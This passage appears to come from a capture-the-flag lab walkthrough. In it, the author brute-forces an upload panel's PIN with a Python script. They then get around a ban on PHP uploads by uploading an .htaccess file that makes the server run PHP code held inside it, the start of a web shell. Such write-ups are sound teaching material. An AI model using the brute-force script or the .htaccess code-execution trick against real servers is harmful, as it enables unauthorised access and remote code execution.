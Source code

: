 Here's my bruteforce script:

{% highlight python %}
import sys
import requests
import itertools

user = 'devnull'
passwd = 'j4tC1P9aqmY'

base_url = 'http://signal8.darknet.com/xpanel/'

login_url = base_url + 'index.php'
payload = {'username': user, 'password': passwd}

sess = requests.session()

r = sess.post(login_url, data=payload)

ploy_url = base_url + 'ploy.php'

for attempt in itertools.permutations(["37","58","22","12","72","10","59","17","99"], 4):
    payload = {'Action':'Upload',
               'checkbox[]': attempt

              }

    files = {'imag':('info.txt', open('info.php', 'rb')}

    r = sess.post(ploy_url, data=payload, files=files)

    if r.text.find('Key incorrecta!') == -1:
        print 'Found pin: ', attempt
        sys.exit(0)
{% endhighlight %}

The correct PIN is `'37', '10', '59', '17'`. I tried to upload a PHP script, but
that won't work. Seems uploading anything with a `php` extension is forbidden.
Casting my mind back I noticed that in the apache config I noticed something interesting.
For this site `AllowOverride All` is on. Most likely going to be something to 
do with `.htaccess`. To check this I upload the following file, and then browse to a
non-existant file, to generate a 404

{% highlight text %}
Order deny,allow
Allow from all
ErrorDocument 404 https://google.com

{% endhighlight %}

This should direct me to `google.com`, which it does, indicating `.htaccess` overrides work here.
So what can I do from here that will either allow me to upload a PHP shell or do something else?

Unfortunately there's another issue: as I upload files, old files seem to get deleted. 
I found this out when the 404 redirect stopped working after uploading an html file.

Luckily I discovered that it's possible to execute php code inside the .htaccess file.

{% highlight text %}
AddHandler application/x-httpd-php .htaccess                                    
DirectoryIndex .htaccess                                                        
<FilesMatch "^\.htaccess">                                                      
Order deny,allow                                                                
Allow from all                                                                  
SetHandler application/x-httpd-php                                              
</FilesMatch>                                                                   
                                                                                
#<?php print $_GET["test"]; ?> 
{% endhighlight %}
